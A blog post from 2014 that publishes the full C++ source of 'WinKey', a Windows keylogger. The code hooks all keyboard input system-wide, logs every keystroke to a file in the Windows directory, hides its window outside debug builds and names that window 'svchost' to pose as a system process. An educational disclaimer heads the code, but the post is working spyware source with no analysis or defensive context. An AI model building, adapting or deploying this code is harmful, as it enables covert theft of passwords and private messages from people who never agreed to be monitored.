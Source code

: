 ---Aniket
comments: true
date: 2014-09-19 16:18:27+00:00
layout: post
slug: keylogger
title: Keylogger
wordpress_id: 80
categories:
- D.D.O.C.
tags:
- keylogger
- program for keylogger
---

Source code for WinKey - A windows GPL keylogging program.

<!-- more -->


    
{% highlight ruby %}
/*
 * WinKey -- A GPL Windows keylogging program. While this program can potentially
 * be used for nefarious purposes, it was written for educational and recreational
 * purposes only and the author does not endorse illegal use.
 *
 * This program is free software: you can redistribute it and/or modify
 * it under the terms of the GNU General Public License as published by
 * the Free Software Foundation, either version 3 of the License, or
 * (at your option) any later version.
 *
 * This program is distributed in the hope that it will be useful,
 * but WITHOUT ANY WARRANTY; without even the implied warranty of
 * MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
 * GNU General Public License for more details.
 *
 * You should have received a copy of the GNU General Public License
 * along with this program.  If not, see <http://www.gnu.org/licenses/>.
 */

#include <fstream>
#include <iostream>
#include <string>
#include <windows.h>

#define    DEBUG   1

#define OUTFILE_NAME   "Logs\\WinKey.log"   /* Output file */
#define CLASSNAME  "winkey"
#define WINDOWTITLE    "svchost"

char   windir[MAX_PATH + 1];
HHOOK   kbdhook;    /* Keyboard hook handle */
bool   running;    /* Used in main loop */

/**
 * \brief Called by Windows automagically every time a key is pressed (regardless
 * of who has focus)
 */
__declspec(dllexport) LRESULT CALLBACK handlekeys(int code, WPARAM wp, LPARAM lp)
{
    if (code == HC_ACTION && (wp == WM_SYSKEYDOWN || wp == WM_KEYDOWN)) {
        static bool capslock = false;
        static bool shift = false;
        char tmp[0xFF] = {0};
        std::string str;
        DWORD msg = 1;
        KBDLLHOOKSTRUCT st_hook = *((KBDLLHOOKSTRUCT*)lp);
        bool printable;

        /*
        * Get key name as string
        */
        msg += (st_hook.scanCode << 16);
        msg += (st_hook.flags << 24);
        GetKeyNameText(msg, tmp, 0xFF);
        str = std::string(tmp);

        printable = (str.length() <= 1) ? true : false;

        /*
        * Non-printable characters only:
        * Some of these (namely; newline, space and tab) will be
        * made into printable characters.
        * Others are encapsulated in brackets ('[' and ']').
        */
        if (!printable) {
            /*
            * Keynames that change state are handled here.
            */
            if (str == "CAPSLOCK")
                capslock = !capslock;
            else if (str == "SHIFT")
                shift = true;

            /*
            * Keynames that may become printable characters are
            * handled here.
            */
            if (str == "ENTER") {
                str = "\n";
                printable = true;
            } else if (str == "SPACE") {
                str = " ";
                printable = true;
            } else if (str == "TAB") {
                str = "\t";
                printable = true;
            } else {
                str = ("[" + str + "]");
            }
        }

        /*
        * Printable characters only:
        * If shift is on and capslock is off or shift is off and
        * capslock is on, make the character uppercase.
        * If both are off or both are on, the character is lowercase
        */
        if (printable) {
            if (shift == capslock) { /* Lowercase */
                for (size_t i = 0; i < str.length(); ++i)
                    str[i] = tolower(str[i]);
            } else { /* Uppercase */
                for (size_t i = 0; i < str.length(); ++i) {
                    if (str[i] >= 'A' && str[i] <= 'Z') {
                        str[i] = toupper(str[i]);
                    }
                }
            }

            shift = false;
        }

#ifdef DEBUG
        std::cout << str;
#endif
        std::string path = std::string(windir) + "\\" + OUTFILE_NAME;
        std::ofstream outfile(path.c_str(), std::ios_base::app);
        outfile << str;
        outfile.close();
    }

    return CallNextHookEx(kbdhook, code, wp, lp);
}


/**
 * \brief Called by DispatchMessage() to handle messages
 * \param hwnd    Window handle
 * \param msg Message to handle
 * \param wp
 * \param lp
 * \return 0 on success
 */
LRESULT CALLBACK windowprocedure(HWND hwnd, UINT msg, WPARAM wp, LPARAM lp)
{
    switch (msg) {
        case WM_CLOSE: case WM_DESTROY:
            running = false;
            break;
        default:
            /* Call default message handler */
            return DefWindowProc(hwnd, msg, wp, lp);
    }

    return 0;
}

int WINAPI WinMain(HINSTANCE thisinstance, HINSTANCE previnstance,
        LPSTR cmdline, int ncmdshow)
{
    /*
    * Set up window
    */
    HWND        hwnd;
    HWND        fgwindow = GetForegroundWindow(); /* Current foreground window */
    MSG     msg;
    WNDCLASSEX  windowclass;
    HINSTANCE   modulehandle;

    windowclass.hInstance = thisinstance;
    windowclass.lpszClassName = CLASSNAME;
    windowclass.lpfnWndProc = windowprocedure;
    windowclass.style = CS_DBLCLKS;
    windowclass.cbSize = sizeof(WNDCLASSEX);
    windowclass.hIcon = LoadIcon(NULL, IDI_APPLICATION);
    windowclass.hIconSm = LoadIcon(NULL, IDI_APPLICATION);
    windowclass.hCursor  = LoadCursor(NULL, IDC_ARROW);
    windowclass.lpszMenuName = NULL;
    windowclass.cbClsExtra = 0;
    windowclass.cbWndExtra = 0;
    windowclass.hbrBackground = (HBRUSH)COLOR_BACKGROUND;

    if (!(RegisterClassEx(&windowclass)))
        return 1;

    hwnd = CreateWindowEx(NULL, CLASSNAME, WINDOWTITLE, WS_OVERLAPPEDWINDOW,
            CW_USEDEFAULT, CW_USEDEFAULT, 640, 480, HWND_DESKTOP, NULL,
            thisinstance, NULL);
    if (!(hwnd))
        return 1;

    /*
    * Make the window invisible
    */
#ifdef DEBUG
    /*
    * Debug mode: Make the window visible
    */
    ShowWindow(hwnd, SW_SHOW);
#else
    ShowWindow(hwnd, SW_HIDE);
#endif
    UpdateWindow(hwnd);
    SetForegroundWindow(fgwindow); /* Give focus to the previous fg window */

    /*
    * Hook keyboard input so we get it too
    */
    modulehandle = GetModuleHandle(NULL);
    kbdhook = SetWindowsHookEx(WH_KEYBOARD_LL, (HOOKPROC)handlekeys, modulehandle, NULL);

    running = true;

    GetWindowsDirectory((LPSTR)windir, MAX_PATH);

    /*
    * Main loop
    */
    while (running) {
        /*
        * Get messages, dispatch to window procedure
        */
        if (!GetMessage(&msg, NULL, 0, 0))
            running = false; /*
                     * This is not a "return" or
                     * "break" so the rest of the loop is
                     * done. This way, we never miss keys
                     * when destroyed but we still exit.
                     */
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }

    return 0;
}
{% endhighlight %}
    
